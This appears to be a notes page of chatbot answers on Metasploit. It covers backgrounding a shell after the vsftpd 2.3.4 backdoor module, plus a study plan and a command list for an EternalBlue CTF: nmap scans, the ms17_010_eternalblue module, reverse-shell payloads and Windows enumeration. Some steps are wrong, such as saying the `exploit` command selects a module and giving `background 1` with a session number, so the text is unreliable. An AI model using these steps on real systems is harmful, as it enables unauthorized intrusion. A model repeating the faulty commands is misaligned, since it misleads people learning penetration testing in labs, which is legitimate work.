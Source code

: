 - How to background shell in metasploit
	- To background a shell in Metasploit, you can use the `background` command. Here's a step-by-step guide on how to do it:
	  
	  1. Start by launching Metasploit. Open a terminal or command prompt and enter the following command:
	     ```
	     msfconsole
	     ```
	  
	  2. Once Metasploit loads, use the `exploit` command to select and execute an exploit module. For example, if you want to exploit a vulnerable FTP server, you can use the `exploit/unix/ftp/vsftpd_234_backdoor` module. Type the following command:
	     ```
	     use exploit/unix/ftp/vsftpd_234_backdoor
	     ```
	  
	  3. Set the required options for the exploit module. You may need to provide values for options like `RHOST` (target IP address), `RPORT` (target port), or others. Use the `show options` command to view and set the required options. For example:
	     ```
	     set RHOST <target_ip>
	     ```
	  
	  4. Once you have set the required options, run the `exploit` command to launch the exploit against the target:
	     ```
	     exploit
	     ```
	  
	  5. If the exploit is successful and you gain a shell access, you can use the `sessions` command to list active sessions. Identify the session number of the shell you want to background.
	  
	  6. Now, to background the shell and return to the Metasploit console, use the `background` command followed by the session number. For example, if the session number is 1, enter:
	     ```
	     background 1
	     ```
	  
	  7. The shell will be successfully backgrounded, and you will return to the Metasploit console, allowing you to continue using other exploits or modules.
	  
	  Remember to keep an eye on your backgrounded sessions with the `sessions` command in case you need to switch back to a specific session later.
	- How to complete the eternal blue CTF give me the commands only
		- Completing the Eternal Blue CTF (Capture the Flag) challenge requires a combination of technical skills, research, and problem-solving. Here are some steps you can follow:
		  
		  1. Understand the Basics: Familiarize yourself with the concept of the Eternal Blue exploit. Research what it is, how it works, and the vulnerabilities it targets.
		  
		  2. Study Networking and Exploitation: Gain a solid understanding of networking protocols, such as SMB (Server Message Block). Learn about common exploitation techniques and tools used to exploit vulnerabilities like Eternal Blue.
		  
		  3. Set up a Lab: Create a testing environment to practice on. Set up virtual machines with vulnerable systems like Windows XP or Windows 7.
		  
		  4. Research and Analyze: Look for information related to the Eternal Blue CTF challenge. Study any available hints, instructions, or guidelines provided by the CTF organizers. Analyze any provided tools or scripts.
		  
		  5. Exploit the Vulnerability: Use the tools and scripts you obtained in the previous step to attempt to exploit the Eternal Blue vulnerability. Follow the necessary steps carefully, ensuring you're targeting the correct systems and utilizing correct parameters.
		  
		  6. Capture the Flag: Once you successfully exploit the vulnerability and gain access to the target system, search for the flag. The flag may be in the form of a file, text, or key that you need to discover or retrieve.
		  
		  7. Document and Learn: Take notes of your steps, techniques, and any lessons learned during the process. This documentation will help you understand the exploit better and improve your skills.
		  
		  Remember, CTF challenges are designed to be challenging, so don't get discouraged if you face difficulties. Keep researching, practicing, and learning from each attempt.
		- To complete the Eternal Blue CTF, you'll need to utilize the following commands:
		  
		  1. Scan the target for open ports and services:
		     - `nmap -p- <target IP>`: This command will scan all ports on the target IP to identify which services are running.
		  
		  2. Enumerate the target's SMB service:
		     - `nmap -p 445 --script=smb-vuln* <target IP>`: This script will check for any known SMB vulnerabilities on port 445.
		  
		  3. Exploit the Eternal Blue vulnerability using Metasploit:
		     - Launch Metasploit framework using the command: `msfconsole`
		     - Search for the Eternal Blue exploit module: `search ms17-010`
		     - Select the appropriate exploit module, usually `exploit/windows/smb/ms17_010_eternalblue`
		     - Set the required options, including the target IP: 
		       ```
		       set RHOSTS <target IP>
		       set RPORT 445
		       set PAYLOAD <selected payload>
		       ```
		     - Exploit the target system by running the command: `exploit`
		  
		  4. Gain a reverse shell on the exploited system, specifying the appropriate payloads and options.
		  
		  5. Enumerate and escalate privileges as needed to complete the CTF objectives. Use various commands, such as:
		     - `whoami`: To check the current user privileges
		     - `net user`: To list available users
		     - `net group administrators`: To display members of the Administrators group
		     - `systeminfo`: To gather system information
		     - `tasklist`: To list running processes
		     - `reg query`: To query the Windows registry for valuable information
		     - `cd`: To navigate through the file system
		     - `copy`: To copy files to and from the target system
		  
		  Please note that the use of these commands must comply with the appropriate legal and ethical guidelines. Always obtain proper authorization before conducting any penetration testing activities.
		-